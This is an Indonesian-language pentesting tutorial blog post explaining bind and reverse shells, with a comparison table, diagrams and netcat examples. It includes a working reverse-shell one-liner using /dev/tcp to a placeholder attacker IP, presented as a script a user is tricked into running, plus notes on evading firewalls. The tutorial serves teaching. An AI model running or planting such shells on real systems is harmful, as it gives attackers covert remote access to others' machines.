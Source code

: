 ```yaml
---
title: Bind dan Reverse Shell
date: 2024-11-29
categories: [Pentesting]
tags: [Security, Exploitation]
---
```




Setelah berhasil mendapatkan akses ke sistem target, biasanya dilakukan oleh attacker adalah mempertahankan akses ke sistem tersebut. Salah satu teknik yang sering digunakan untuk mempertahankan akses adalah dengan menggunakan `Bind Shell` atau `Reverse Shell`.

### Perbedaan antara Bind dan Reverse Shell

| **Aspek**           | **Bind Shell**                                                                 | **Reverse Shell**                                                               |
|---------------------|-------------------------------------------------------------------------------|--------------------------------------------------------------------------------|
| **Definisi**         | Sebuah shell yang "mengikat" ke port tertentu pada target, menunggu koneksi dari penyerang. | Sebuah shell yang diinisiasi oleh target dengan menghubungi mesin penyerang.  |
| **Inisiasi Koneksi**| Penyerang menghubungi target secara langsung.                                | Target menghubungi penyerang untuk memulai koneksi.                            |
| **Port**             | Target membuka port yang dapat diakses oleh penyerang.                     | Penyerang membuka port yang akan dihubungi oleh target.                        |
| **Firewall**         | Dapat dicegah jika firewall memblokir port yang dibuka oleh target.         | Lebih sulit dicegah karena koneksi keluar biasanya diizinkan oleh firewall.    |
| **Keamanan**         | Lebih mudah terdeteksi karena port terbuka pada target.                    | Lebih sulit terdeteksi karena memanfaatkan koneksi keluar yang sering diizinkan.|

## Gambaran sederhana

### Bind Shell

{{<mermaid>}}

flowchart RL
    A[Attacker] --> B[Server]

{{</mermaid>}}

Attacker akan membuka koneksi server untuk mendapatkan akses shell.

###  Reverse Shell

{{<mermaid>}}

flowchart LR
    A[Server] --> B[Attacker]

{{</mermaid>}}

Server akan membuka koneksi ke attacker untuk mendapatkan akses shell. 

## Implementasi Sedehana

Pada kasus ini, kita akan menggunakan `nc` untuk membuat bind dan reverse shell. yang akan digunakan untuk membuat koneksi shell antara attacker dan server. Secara default, `nc` tersedia di sistem operasi Linux, tetapi jika menggunakan sistem operasi seperti `Windows`, sehingga dapat menginstalnya secara manual.

```bash
$ sudo apt install nc
```

### Bind Shell

Asumsikan sudah ada akses terminal server dan kita ingin membuat bind shell pada port `4444`

```bash
server@administrator ~ $ nc -lnvp 4444
```

Maka attacker dapat terhubung ke server dengan output sebagai berikut:

```bash
attacker@ubuntu2404 ~ $ nc <server_ip> 4444
server@administrator ~ $ whoami
server
```
{{< alert >}}
> **Catatan**: Penggunaan `bind shell` cenderung lebih mudah terdeteksi karena port terbuka pada target.
{{< /alert >}}

### Reverse Shell

Misalkan belum ada akses ke terminal server, attacker akan membuat reverse shell pada port `9999`
Asumsikan telah mengeksekusi script berdasarkan interaksi user pada server:

```bash
#file: shell.sh
sh -i >& /dev/tcp/<attacker_ip>/9999 0>&1
```

Maka server akan terhubung ke attacker dengan output sebagai berikut:

```bash
attacker@ubuntu2404 ~ $ nc -lnvp 9999
# user execute the script by running `shell.sh`
server@administrator ~ $
server@administrator ~ $ whoami
server
```

## Kesimpulan

Dengan menggunakan `Bind Shell` atau `Reverse Shell`, attacker dapat mempertahankan akses ke sistem target. Namun, perlu diingat bahwa penggunaan `Bind Shell` cenderung lebih mudah terdeteksi karena port terbuka pada target. Sebaliknya, `Reverse Shell` lebih sulit terdeteksi karena memanfaatkan koneksi keluar yang sering diizinkan oleh firewall.

Terima kasih :)